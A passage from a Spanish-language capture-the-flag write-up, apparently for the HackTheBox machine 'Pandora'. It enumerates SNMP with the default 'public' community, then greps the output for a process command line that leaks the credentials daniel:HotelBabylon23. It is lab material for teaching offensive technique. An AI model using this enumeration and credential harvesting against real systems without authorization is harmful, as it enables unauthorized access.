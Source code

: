 Usaremos el parámetro **v2c** que es para la versión pero lo único malo de esto es que va muy lento 

```bash
❯ snmpwalk -v2c -c public 10.10.11.136
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (689294) 1:54:52.94
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (53) 0:00:00.53
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
^C
```

Vamos a usar otro herramienta que es mucho mejor y va mucha mas rápido solo que vamos a exportar toda la información a un archivo 

```bash
❯ snmpbulkwalk -c public -v2c 10.10.11.136 > snmp_enum.txt
```

Tiene muchas lineas para no ver todo y ver directamente por cosas interesantes con la anterior herramienta vimos que había un usuario que se llama **Daniel** Podemos filtrar por **Daniel**

```bash
❯ cat snmp_enum.txt | wc -l
7014
```

Y ya vemos que se esta ejecutando algo y nos comparten credenciales **daniel:HotelBabylon23**

```bash
❯ cat snmp_enum.txt | grep "Daniel" -i
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.25.4.2.1.5.851 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.1117 = STRING: "-u daniel -p HotelBabylon23"
```

![](/assets/images/htb-writeup-pandora/web4.png)

## Shell as daniel 
